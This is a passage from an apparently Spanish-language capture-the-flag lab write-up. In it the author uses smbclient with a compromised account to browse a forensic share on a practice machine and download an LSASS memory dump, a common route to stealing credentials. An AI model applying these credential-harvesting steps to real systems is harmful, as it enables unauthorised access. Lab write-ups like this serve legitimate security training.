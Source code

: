 ### LSASS Dump

El recurso "forensic" antes no estaba disponible, vamos a ver su contenido.

```bash
❯ smbclient '\\10.10.10.192\forensic' -U audit2020
Enter WORKGROUP\audit2020's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Feb 23 14:03:16 2020
  ..                                  D        0  Sun Feb 23 14:03:16 2020
  commands_output                     D        0  Sun Feb 23 19:14:37 2020
  memory_analysis                     D        0  Thu May 28 22:28:33 2020
  tools                               D        0  Sun Feb 23 14:39:08 2020

                5102079 blocks of size 4096. 1694300 blocks available
smb: \> 
```

Tiene cosas interesantes relacionadas con Forensics, pero lo que más me llama la atención es un fichero .zip que se encuentra dentro de  "memory_analysis" llamado "lsass.zip". Nos lo vamos a descargar a nuestro equipo.

> El proceso LSASS es responsable de la autenticación y verificación de credenciales de usuario, la gestión de políticas de seguridad local, el control de acceso a recursos del sistema y la creación de tokens de seguridad para los usuarios que se autentican correctamente.

```bash
smb: \memory_analysis\> dir
  .                                   D        0  Thu May 28 22:28:33 2020
  ..                                  D        0  Thu May 28 22:28:33 2020
  conhost.zip                         A 37876530  Thu May 28 22:25:36 2020
  ctfmon.zip                          A 24962333  Thu May 28 22:25:45 2020
  dfsrs.zip                           A 23993305  Thu May 28 22:25:54 2020
  dllhost.zip                         A 18366396  Thu May 28 22:26:04 2020
  ismserv.zip                         A  8810157  Thu May 28 22:26:13 2020
  lsass.zip                           A 41936098  Thu May 28 22:25:08 2020
  mmc.zip                             A 64288607  Thu May 28 22:25:25 2020
  RuntimeBroker.zip                   A 13332174  Thu May 28 22:26:24 2020
  ServerManager.zip                   A 131983313  Thu May 28 22:26:49 2020
  sihost.zip                          A 33141744  Thu May 28 22:27:00 2020
  smartscreen.zip                     A 33756344  Thu May 28 22:27:11 2020
  svchost.zip                         A 14408833  Thu May 28 22:27:19 2020
  taskhostw.zip                       A 34631412  Thu May 28 22:27:30 2020
  winlogon.zip                        A 14255089  Thu May 28 22:27:38 2020
  wlms.zip                            A  4067425  Thu May 28 22:27:44 2020
  WmiPrvSE.zip                        A 18303252  Thu May 28 22:27:53 2020

                5102079 blocks of size 4096. 1694300 blocks available
smb: \memory_analysis\> get lsass.zip
```

Si descomprimimos el .zip podemos ver un archivo llamado: "lsass.DMP"
